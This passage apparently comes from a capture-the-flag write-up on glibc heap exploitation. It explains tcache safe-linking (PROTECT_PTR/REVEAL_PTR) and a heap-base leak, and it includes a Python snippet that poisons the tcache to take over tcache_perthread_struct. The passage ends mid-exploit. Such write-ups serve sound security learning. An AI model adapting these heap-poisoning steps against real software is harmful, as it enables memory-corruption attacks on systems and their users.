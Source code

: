 ```c
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}
```

Compare with [glibc-2.31's malloc](https://elixir.bootlin.com/glibc/glibc-2.31/source/malloc/malloc.c#L2918), we notice that tcache chunk's fd is encrypted and decrypted with `PROTECT_PTR()` and `REVEAL_PTR()`

```c:malloc.c
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```

For example:



Instead of storing `tcache->entries[tc_idx]`, `tcache_put()` store 

```
(&e->next>>12)^(tcache->entries[tc_idx])
```

`&e->next>>12` is basically heap base, and `tcache->entries[tc_idx]` is equal to zero when the bin is empty (the first time a chunk is inserted into that bin).

So the expression is equal to `heap_base>>12`.

## Leak libc base and control tcache_perthread_struct

Now we have heap address.

> My first attempt during ctf is trying to insert a big chunk to unsorted bin and leak libc base. But even when I do the former, it used up 9 slot of notes and I couldn't perform another tcache poisoning to point to the big chunk and leak libc base. 

After reading nyancat's writeup, I notice the existence of `tcache_perthread_struct` which is the first chunk to be allocated on heap. If we could control the tcache struct, we could perform a lot of magic.

First prepare tcache poisoning for 2 bins to allocate at `tcache_perthread_struct`. Note that we overwrite fd with `PROTECT_PTR(tcache_perthead_struct)` instead of the original pointer. 

```python
# tcache poisoning to alloc 2 chunks at tcache_perthead_struct
edit(0, 0x60, p64(0)*2)
edit(0, 0)
edit(0, 0x60, p64(protect(heap_base+0x10)))

edit(2, 0x70, p64(0)*2)
edit(2, 0)
edit(2, 0x70, p64(0)*2)
edit(2, 0)
edit(2, 0x70, p64(protect(heap_base+0x10)))
```
